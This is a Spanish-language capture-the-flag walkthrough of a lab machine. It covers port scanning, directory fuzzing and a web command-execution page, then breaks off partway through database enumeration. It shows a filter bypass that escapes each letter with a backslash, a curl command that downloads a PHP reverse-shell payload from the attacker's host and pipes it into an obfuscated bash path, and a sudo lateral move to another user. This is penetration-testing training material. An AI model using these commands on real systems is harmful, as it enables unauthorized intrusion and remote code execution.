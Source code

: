 ### nmap
```python
sudo nmap -p- --open -sS -sCV -n -Pn 10.10.95.51
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-18 18:53 EST
Nmap scan report for 10.10.95.51
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.51 seconds
```
### ports: 21/tcp - 22/ssh - 80/http

### Enumeración 80
![[Pasted image 20231118200242.png]]
la pagina principal parace no tener nada importante
### fuzzing con gobuster
![[Pasted image 20231118201742.png]]
### tenemos un monton de directorios pero el que nos llama mas la atencion es /secret asi que vamos a investigar
tenemos una pagina que al parecer nos permite ejecutar codigo
![[Pasted image 20231118202125.png]]
### Al parecer somos el usuario www-data  pero no podemos ejecutar cualquier codigo ya que nos da errores
### despues de una larga busqueda por internet y probar un monton de cosas hemos consegido que interponiendo la barra slash invertido en cada letra de comando al parecer nos deja ejecutarlo. usaremos esto para intentar enviarnos una reverse shell 
![[Pasted image 20231118212931.png]]
### hemos creado un archivo shell.php con una reverse shell y hemos creado un servidor en python para poder conpartirnos el archivo y paralelamente nos hemos puesto a la escucha para poder obtener la shel
```python
	curl 10.8.203.6:8000/shellencod.php | /b?n/ba?h
```
### somos el usuario www-data
hemos intentado hacer tratamiento de tty pero al parecer no podemos. tendremos que hacer movimiento lateral hacia otro usuario para intentarlo de nuevo
![[Pasted image 20231118214103.png]]
### veamos los permisos SUID
![[Pasted image 20231119202137.png]]
al parecer tenemos un script de apaar pero todos pueden ejecutarlo. asi que vamos a aprovechar esto para intentar cambiarlos al usuario apaar.
### aprovechamos que apaar puede ejecutar este script asi que lo intentaremos ejecutar como apaar con el siguiente comando

```python 
sudo -u apaar /home/apaar/.helpline.sh
```
![[Pasted image 20231119202426.png]]
### perfecto. somos apaar. hacemos tratamiento de tty y listamos directorios
![[Pasted image 20231119202943.png]]
###### El index.php parece no tener nada muy importante y en imagenes tampoco.
### seguimos buscando y conseguimos una ruta donde tenemos archivos muy interesantes
vamos a mirar el archivo hacker.php
![[Pasted image 20231119203534.png]]
###### tenemos lo que parece ser una pagina web con una imagen y un mensaje que dice: mira en la oscuridad y podrás conseguir la respuesta
### hacemos cat al siguiente archivo en este caso account.php
![[Pasted image 20231119203858.png]]
###### en este caso tenemos informacion sobre una base de datos. nos dan pistas sobre el tipo de hash utilizados y parece que apunta a la tabla de usuarios
### el archivo index.php nos da informacion sobre lo que efectivamente es una base de datos